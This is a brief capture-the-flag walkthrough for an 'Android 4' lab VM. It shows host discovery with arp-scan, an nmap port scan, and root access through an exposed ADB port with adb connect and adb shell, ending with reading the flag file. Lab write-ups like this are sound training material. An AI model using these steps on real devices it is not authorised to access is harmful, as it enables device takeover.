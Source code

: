 # Android 4

### 1.Get VM IP

```bash
root@kali: arp-scan -I eth0 -l
Interface: eth0, type: EN10MB, MAC: 08:00:27:b2:e9:3f, IPv4: 192.168.56.102
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.56.1	0a:00:27:00:00:12	(Unknown: locally administered)
192.168.56.100	08:00:27:89:31:c1	PCS Systemtechnik GmbH
192.168.56.126	08:00:27:21:14:3d	PCS Systemtechnik GmbH
```

The IP address is `192.168.56.126`, let's enumerate it

### 2.Enumeration

```bash
root@kali: nmap -sT -sV -sC -v -p- -oN nmap.out 192.168.56.126
Nmap scan report for 192.168.56.126
Host is up (0.00068s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT      STATE SERVICE  VERSION
5555/tcp  open  freeciv?
8080/tcp  open  http     PHP cli server 5.5 or later
|_http-title: Deface by Good Hackers
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-open-proxy: Proxy might be redirecting requests
22000/tcp open  ssh      Dropbear sshd 2014.66 (protocol 2.0)
| ssh-hostkey: 
|   1024 b3:98:65:98:fd:c0:64:fe:16:d6:30:36:aa:2b:ef:6b (DSA)
|_  2048 19:e2:9e:6c:c6:8d:af:4e:86:7c:3b:60:91:33:e1:85 (RSA)
MAC Address: 08:00:27:21:14:3D (Oracle VirtualBox virtual NIC)
```

let's connect to port `5555` with adb and try to be root :

```bash
root@kali: adb connect 192.168.56.126
connected to 192.168.56.126:5555

root@kali: adb root           
adbd is already running as root

root@kali: adb shell      
uid=0(root) gid=0(root)@x86:/ # find / -iname flag.txt 2>/dev/null
/data/root/flag.txt

uid=0(root) gid=0(root)@x86:/data/root # cat flag.txt
ANDROID{u_GOT_root_buddy}
```

this is how you can get root on this machine :)










